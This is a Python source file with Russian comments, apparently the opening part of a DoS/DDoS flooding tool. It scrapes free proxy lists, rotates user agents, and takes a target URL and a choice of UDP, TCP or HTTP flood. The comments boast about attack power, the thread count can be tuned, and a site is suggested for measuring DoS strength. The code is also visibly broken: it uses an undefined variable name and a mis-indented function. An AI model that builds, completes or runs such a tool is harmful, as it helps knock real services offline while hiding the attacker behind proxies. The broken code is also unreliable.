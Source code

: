 
# -*- coding: utf-8 -*-
import urllib.request
import sys
from scapy.all import * 

import socket
import socks
import argparse
import threading
import random



author = "Жмышенко Валерий Альбертович 54 года"


ites = ["https://www.socks-proxy.net/","http://free-proxy-list.net/"] #Сайты откуда берем прокси
useragents = []
##Мощность DoS-а зависит от вашего интернет соеденения!!!
multiple = 100 # Умножение, значение можно менять
threads = 922 # Кол-во потоков, можно менять
choice1 = 0 #Для настройки типа флуда
choice2 = 0 #Для настройки типа флуда
choice3 = 0 #Для настройки типа флуда
port = 80 # Порт куда будут слаться заросы, можно менять


##### Добавляем в программу аргументы
parser = argparse.ArgumentParser()
parser.add_argument('-useragent', help = 'Путь до файла с user-агентами')
parser.add_argument('-proxylist', help = 'Путь до файла с proxy')
parser.add_argument('-url', help = 'Цель')
parser.add_argument('-getproxy', help = 'Получить прокси? 1 - да | 0 - нет')
args = parser.parse_args()
useragents_file = args.useragent
needproxy = args.getproxy
url = args.url
proxies_list = args.proxylist
if proxies_list == "": # Если прокси не указана закрыть программу
    print("Укажи прокси!")
    exit()
if useragents_file == "": # Если useragent-ы не указаны закрыть программу
    print("Укажи useragent-ов!")
    exit()
proxies = open(proxies_list).readlines() # Читаем прокси


###### Получение юзер агента с файла
handle = open(useragents_file)
for x in handle:
    useragents.append(x)
useragents = map(lambda s: s.strip(), useragents)
useragents = list(useragents)
######

def checkURL(): #Редактируем URL
    global url
    global url2
    global urlport


    try:
        if url[0]+url[1]+url[2]+url[3] == "www.":
            url = "http://" + url
        elif url[0]+url[1]+url[2]+url[3] == "http":
            pass
        else:
            url = "http://" + url
    except:
        print("Ошибка!")
        exit()

    try:
        url2 = url.replace("http://", "").replace("https://", "").split("/")[0].split(":")[0]
    except:
        url2 = url.replace("http://", "").replace("https://", "").split("/")[0]

    try:
        urlport = url.replace("http://", "").replace("https://", "").split("/")[0].split(":")[1]
    except:
        urlport = "80"




def getPROXY(urlproxy):
    try:
        req = urllib.request.Request(("{0}").format(str(urlproxy)))
        req.add_header("User-Agent", random.choice(useragents))
        sourcecode = urllib.request.urlopen(req)
        part = str(sourcecode.read())
        part = part.split("<tbody>")
        part = part[1].split("</tbody>")
        part = part[0].split("<tr><td>")
        proxies = ""
        for proxy in part:
            proxy = proxy.split("</td><td>") #Получаем прокси с сайта путем разделения тегов
            try:
                proxies=proxies + proxy[0] + ":" + proxy[1] + "\n"
            except:
                pass
        handle = open("proxy.txt","a") #Записуем полученные прокси в файл
        handle.write("")
        handle.write(proxies)
        handle.close()
        print ("Прокси скачаны успешно!")
    except:
        print ("Ошибка!")



if needproxy == "1": # Нужно ли качать прокси?
    #### Получение проксей
    for x in sites:
        getPROXY(x)
    ####


    def typeflood(): # Определяем тип флуда
    global choice1 #Для сайтов самый сильный - HTTP
    global choice2
    global choice3

    select = input("UDP или TCP или HTTP? => ")
    if select == "TCP":
        choice1 = "1" # Изначально программа была в интерактивном режиме
        choice2 = "y" # Но я убрал его, оставив лишь выбор метода флуда
        choice3 = "0" # Поэтому переменные называются choice))
    if select == "UDP":
        choice1 = "2"
        choice2 = "y" #Тестить мощь ваше DoS-а или DDoS-а можно здесь: https://www.vedbex.com/tools/dstat
        choice3 = "0"
    if select == "HTTP":
        choice1 = "0"
        choice2 = "y"
        choice3 = "0"
